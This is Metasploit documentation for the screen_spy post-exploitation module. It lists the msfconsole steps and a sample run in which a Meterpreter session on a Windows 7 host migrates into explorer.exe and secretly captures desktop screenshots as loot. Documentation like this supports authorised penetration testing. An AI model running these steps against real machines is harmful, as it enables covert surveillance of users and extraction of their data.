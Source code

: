 ## Vulnerable Application

This module will incrementally take desktop screenshots from the
host. This allows for screen spying which can be useful to determine
if there is an active user on a machine, or to record the screen for
later data extraction. Note: As of March, 2014, the VIEW_CMD option
has been removed in favor of the Boolean VIEW_SCREENSHOTS option,
which will control if (but not how) the collected screenshots will
be viewed from the Metasploit interface.

## Verification Steps

  1. Start msfconsole
  2. Get meterpreter session
  3. Do: ```use post/windows/gather/screen_spy```
  4. Do: ```set SESSION <session id>```
  5. Do: ```run```

## Options

  **SESSION**

  The session to run the module on.

## Scenarios

### Windows 7 (6.1 Build 7601, Service Pack 1).

  ```
  [*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.10:49184) at 201 9-12-12 14:55:42 -0700


  msf > use post/windows/gather/screen_spy
  msf post(windows/gather/screen_spy) > set SESSION 1
    SESSION => 1
  msf post(windows/gather/screen_spy) > run

    [*] Migrating to explorer.exe pid: 1908
    [+] Migration successful
    [*] Capturing 6 screenshots with a delay of 5 seconds
    [*] Screen Spying Complete
    [*] run loot -t screenspy.screenshot to see file locations of your newly acquired loot
    [*] Post module execution completed
  ```
